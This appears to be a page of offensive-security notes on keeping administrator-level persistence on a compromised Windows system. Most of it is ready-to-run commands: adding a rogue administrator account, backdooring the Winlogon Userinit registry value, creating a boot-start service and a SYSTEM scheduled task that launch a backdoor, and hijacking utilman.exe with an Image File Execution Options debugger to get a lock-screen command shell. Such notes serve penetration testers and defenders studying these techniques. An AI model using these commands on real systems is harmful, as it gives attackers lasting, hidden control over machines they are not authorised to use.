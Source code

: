 # High Privilege User Persistence 

## Overview
This is the same objective as establishing a lower-privilege user's persistence, however it can be even easier as you have administrative access over the system. 

## Creating another administrator user

1. Drop into a shell and create a new user. The syntax is: 

	net user /add [USERNAME] [PASSWORD].  

2. Now just add the username to the local administrators' group. 

	net localgroup Administrators [USERNAME] /add

3. By checking the users that are in the Administrators' group we can see our newly created and added user:

	net localgroup Administrators

## Editing Registries 

We can backdoor the Winlogon so when a user logs in our backdoor will get executed. The registry used is: 

	HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon

1. Upload the backdoor if you haven't and add the registry entry. The command is: 

	reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, [PATH_TO_BINARY]" /f

When a user logs in Userinit.exe will be executed and then our backdoor.

## Persistence by creating a service 

There is the possibility to create a service leveraging Powershell which will execute our backdoor.

1. Load Powershell into the meterpreter instance by typing:

	load powershell 

2. To drop into a Powershell shell type: 

	powershell_shell

3. Create the service using the New-Service cmdlet: 

	New-Service -Name "[SERVICE_NAME]" -BinaryPathName "[PATH_TO_BINARY]" -Description "[SERVICE_DESCRIPTION]" -StartupType "Boot"

The service will start stopped, but by checking the services you can notice that the service will start automatically

## Scheduled tasks

Scheduled tasks are used to schedule the launch of specific programs or scripts at a pre-defined time or when it meets a condition (Ex: a user logs in).

Powershell can be used to create a scheduled task and assure persistence but for that, we'll have to define multiple cmdlets. These are:

* New-ScheduledTaskAction - Is used to define the action that is going to be made.

* New-ScheduledTaskTrigger - Defining the trigger (daily/weekly/monthly, etc). The trigger can be considered a condition that when met the scheduled task will launch the action.

* New-ScheduledTaskPrincipal - Is the user that the task will be run as.

* New-ScheduledTaskSettingsSet - This will set our above-mentioned settings.

* Register-ScheduledTask - Will create the task.

### Example

Knowing this let's create the task using Powershell.

1. Load into a powershell terminal 

2. Set the cmdlets:

	1. $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Administrator\Desktop\backdoor.exe
	2. $B = New-ScheduledTaskTrigger -AtLogOn
	3. $C = New-ScheduledTaskPrincipal -UserID "NT AUTHORITY\SYSTEM" -RunLevel Highest
	4. $D = New-ScheduledTaskSettingsSet

Then set and schedule them:

	5. $E = New-ScheduledTask -Action $A -Trigger $B -Principal $C -Settings $D
	6. Register-ScheduledTask backdoor -InputObject $E

## Backdooring RDP

An example would be using Metasploit to backdoor OSK (On-screen keyboard). The Metasploit sticky_keys module can be used:

1. Sign out/Lock the account and press Windows Key + U and choose On-screen keyboard. A CMD should be prompted.

2. The same results can be achieved by editing the registry using the command:

	REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f



